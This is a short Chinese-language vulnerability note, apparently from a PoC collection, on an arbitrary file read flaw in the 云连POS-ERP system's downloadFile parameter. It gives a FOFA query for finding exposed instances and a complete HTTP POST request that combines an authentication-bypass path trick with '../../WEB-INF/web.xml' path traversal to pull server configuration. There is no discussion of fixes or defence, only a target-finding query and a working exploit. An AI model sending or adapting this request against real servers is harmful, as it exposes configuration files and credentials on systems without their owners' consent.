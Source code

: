 # 云连POS-ERP管理系统downloadFile存在任意文件读取漏洞

云连POS-ERP管理系统downloadFile存在任意文件读取漏洞

## fofa
```javascript
title="Powered By chaosZ"
```

## poc
```javascript
POST /admin/file!download.action;admin!login.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
 
downloadFile=../../WEB-INF/web.xml
```

![image-20241219151235140](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191512200.png)